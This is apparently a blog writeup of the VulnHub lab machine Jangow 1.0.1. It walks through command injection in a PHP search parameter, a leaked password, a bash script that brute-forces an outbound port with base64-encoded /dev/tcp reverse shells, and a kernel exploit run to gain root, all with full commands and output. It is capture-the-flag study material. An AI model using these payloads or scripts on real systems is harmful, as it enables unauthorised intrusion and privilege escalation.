 ```yaml
---
layout: single
title: Jangow:1.0.1 vulnhub writeup
excerpt: "Easy linux machine in which we exploit a RCE and an old linux version"
date: 2022-08-22
classes: wide
header:
  teaser: /assets/images/jangow/jangow.png
  teaser_home_page: true
  icon: /assets/images/vulnhub.png
categories:
  - writeup
tags:
  - vulnhub
  - bash scripting
  - fuzzing
  - ftp
---
```


![](/assets/images/jangow/jangow.png)

# Jangow: 1.0.1
## User flag

```shell
 nmap -p- -n --min-rate 5000 -sS -Pn -vvv -oN allports 192.168.1.38

 PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Interesting no ssh port open so the only way to get in is via reverse shell. Then after fuzzing directories I decided to fuzz the "buscar" parameter for LFI's


  Command line : `ffuf -w /home/dasor/wordlist/LFI-Jhaddix.txt -u http://192.168.1.38/site/busque.php?buscar=FUZZ -v -of md -o ffuf:lfi_search -fs 1`
  Time: 2022-08-20T12:22:23&#43;02:00

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | %0a/bin/cat%20/etc/passwd | http://192.168.1.38/site/busque.php?buscar=%0a/bin/cat%20/etc/passwd |  | 7 | 200 | 1679 | 15 | 34 | text/html; charset=UTF-8 |  |
  | passwd | http://192.168.1.38/site/busque.php?buscar=passwd |  | 479 | 200 | 33 | 4 | 3 | text/html; charset=UTF-8 |  |


surprisingly this page is just a direct php RCE so I got the user flag from there.

## Root flag

Now to get root first we need a shell but at the beginning I wasn't able to craft one  no matter what. However looking through the files I found credentials in a hidden file in ../

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

This credential were valid for ftp but I couldn't find anything valuable there. At this point I thought maybe some kind of firewall was blocking my reverse shells So I did a Bash script to check port by port if a connection can be established. I first tried with the first 1000 ports.


```shell
#!/bin/bash

trap "rm nc.tmp &>/dev/null" EXIT
trap exit 1 INT

id | grep root &>/dev/null
if [ $? != 0 ]
then
	echo "[!] You need root privileges to open this ports"
	exit 1
fi

for i in {1..1000}
do
	payload="sh -i >& /dev/tcp/192.168.1.13/$i 0>&1"
	payload=$(echo $payload  | base64)
	payload="echo \"$payload\""
	payload="$payload | base64 -d | bash"
	payload=$(echo $payload | jq -sRr @uri)
	timeout 1 sudo nc -lvp $i &> nc.tmp &
	timeout 1 curl -s http://192.168.1.38/site/busque.php?buscar=$payload
	echo "[+] trying port $i"
	if [ $(cat nc.tmp | grep -ivE "Terminated|err"| wc -l ) != 0 ]
	then
		echo -e "\t[+] Port found $i"
		exit 0
	fi


done
```

I have to say that this script is not 100% reliable, I think it's because of the timeouts and the more you increase them the more reliable the script is but 1 second for port is already quite slow.

```shell
sudo ./rev_shell_port_check.sh
[+] trying port 437
[+] trying port 438
[+] trying port 439
[+] trying port 440
[+] trying port 441
[+] trying port 442
[+] trying port 443
        [+] Port found 443
```

This situation is quite unusual but surely something we can learn from. Then I just used my base64 encoded rev shell and got in.


```
http://192.168.1.38/site/busque.php?buscar=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzQ0MyAwPiYxCg==%22%20|%20base64%20-d%20|%20bash
```

```shell
sudo nc -lvp 443
[sudo] password for dasor:
Connection from 192.168.1.38:39554
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@jangow01:/var/www/html/site$ ^Z
zsh: suspended  sudo nc -lvp 443
[dasor@archlinux ~/htb/jangow]$ stty raw -echo;fg
[1]  + continued  sudo nc -lvp 443

www-data@jangow01:/var/www/html/site$ stty rows 30 columns 132
www-data@jangow01:/var/www/html/site$ su jangow01
Password:
jangow01@jangow01:/var/www/html/site$
```

Now privilege escalation is really easy, just by looking at the linux version we can see it's really outdated

```shell
jangow01@jangow01:/var/www/html/site$ uname -a
Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits [this](https://www.exploit-db.com/exploits/45010) comes up. In this case we need to compile the exploit statically because there are no libraries in the victim's machine.

```shell
[dasor@archlinux ~/htb/jangow]$ gcc --static exp2.c -o exploit
[dasor@archlinux ~/htb/jangow]$ ldd exploit
```

Now let's download it from the other machine (also use port 443) and execute it

```shell
[dasor@archlinux ~/htb/jangow]$ sudo python3 -m http.server 443
...
 jangow01@jangow01:~$ wget 192.168.1.13:443/exploit
--2022-08-22 13:22:02--  http://192.168.1.13:443/exploit
Conectando-se a 192.168.1.13:443... conectado.
A requisição HTTP foi enviada, aguardando resposta... 200 OK
Tamanho: 796480 (778K) [application/octet-stream]
Salvando em: “exploit”

exploit                        100%[==========================================================>] 777,81K  --.-KB/s    in 0,002s

2022-08-22 13:22:02 (447 MB/s) - “exploit” salvo [796480/796480]
jangow01@jangow01:~$ chmod u+x exploit
jangow01@jangow01:~$ ./exploit
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003da86900
[*] Leaking sock struct from ffff880037ca3a40
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88003439d9c0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88003439d9c0
[*] credentials patched, launching shell...
# whoami
root
# cat /root/proof.txt
                       @@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@&&&&&&&&&&&&&&
                       @  @@@@@@@@@@&( .@@@@@@@@&%####((//#&@@@&   .&@@@@@
                       @  @@@@@@@&  @@@@@@&@@@@@&%######%&@*   ./@@*   &@@
                       @  @@@@@* (@@@@@@@@@#/.               .*@.  .#&.   &@@@&&
                       @  @@@, /@@@@@@@@#,                       .@.  ,&,   @@&&
                       @  @&  @@@@@@@@#.         @@@,@@@/           %.  #,   %@&
                       @@@#  @@@@@@@@/         .@@@@@@@@@@            *  .,    @@
                       @@&  @@@@@@@@*          @@@@@@@@@@@             ,        @
                       @&  .@@@@@@@(      @@@@@@@@@@@@@@@@@@@@@        *.       &@
                      @@/  *@@@@@@@/           @@@@@@@@@@@#                      @@
                      @@   .@@@@@@@/          @@@@@@@@@@@@@              @#      @@
                      @@    @@@@@@@@.          @@@@@@@@@@@              @@(      @@
                       @&   .@@@@@@@@.         , @@@@@@@ *            .@@@*(    .@
                       @@    ,@@@@@@@@,   @@@@@@@@@&*%@@@@@@@@@,    @@@@@(%&*   &@
                       @@&     @@@@@@@@@@@@@@@@@         (@@@@@@@@@@@@@@%@@/   &@
                       @ @&     ,@@@@@@@@@@@@@@@,@@@@@@@&%@@@@@@@@@@@@@@@%*   &@
                       @  @@.     .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%*    &@&
                       @  @@@&       ,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%/     &@@&&
                       @  @@@@@@.        *%@@@@@@@@@@@@@@@@@@@@&#/.      &@@@@&&
                       @  @@@@@@@@&               JANGOW               &@@@
                       @  &&&&&&&&&@@@&     @@(&@ @. %.@ @@%@     &@@@&&&&
                                     &&&@@@@&%       &/    (&&@@@&&&
                                       (((((((((((((((((((((((((((((


```

And done! pretty easy machine except for the port part that was quite confusing
